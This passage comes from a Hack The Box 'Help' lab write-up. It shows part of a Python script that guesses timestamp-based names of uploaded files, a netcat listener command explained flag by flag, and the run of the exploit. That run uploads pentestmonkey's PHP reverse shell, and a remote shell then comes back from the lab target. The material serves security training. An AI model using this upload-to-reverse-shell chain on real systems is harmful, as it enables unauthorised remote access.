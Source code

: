 ``` python
    print(f'\r{base_url}{upload_dir}/{color.yellow}{filename}{color.end} [{data}] ({dt.fromtimestamp(server_time - i)})', end='')
    try: res = r.head(f'{base_url}{upload_dir}/{filename}')
    except: handle_conn_err()
    if res.status_code == 200:
        print(f'\nFound: {color.green}{filename}{color.end}')
        exit()

print(f'\n{color.red}No file found.{color.end}')
```

For the PHP reverse shell, I will be using the rev shell from pentestmonkey: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

before we get started, let's get netcat started

``` bash
$ nc -nlvp 8080 -s [INSERT_LOCAL_VPN_IP_HERE]
```

to break down this input:

**nc**: stands for netcat, a networking tool that allows for us to open up ports and make connections (among other things)
**-lnvp** is just the four following flags combined into one for convenience:
	**-l**: means it is using a listening port
	**-n**: numeric IP only (I haven't given my workstation a hostname so I'm only using IP)
	**-v**: verbose output, helpful for troubleshooting
	**-p**: indicates that we will be specifying the port number. I did 8080, but you can chose any valid port number not currently in use
**8080**: the port number we are using
**-s**: local source address, insert your IP that HTB assigned your machine via VPN. You can either find it through the command line with commands like **ifconfig**, **ip address**, or you can just find it in your machine connection:

![](/assets/img/htb_help/Screenshot_From_2025-01-08_21-45-41.png]]

NOTE: be sure to input your VPN IP and port in the reverse shell script you are going to use!

Now that's done, let's see if we can get this to run:

``` shell
$ python3 exploit.py http://help.htb/support/ php-reverse-shell.php

http://help.htb/support//uploads/tickets/c37d8f24e5aec914bd000a41408fa641.php [php-reverse-shell.php1736389573] (2025-01-09 02:26:13
```

sure enough, it got uploaded! let's check our netcat instance and see if we see anything

``` shell
$nc -nlvp 8080 -s 10.10.14.208
listening on [10.10.14.208] 8080 ...
connect to [10.10.14.208] from (UNKNOWN) [10.129.93.157] 45012
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 18:26:15 up  2:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

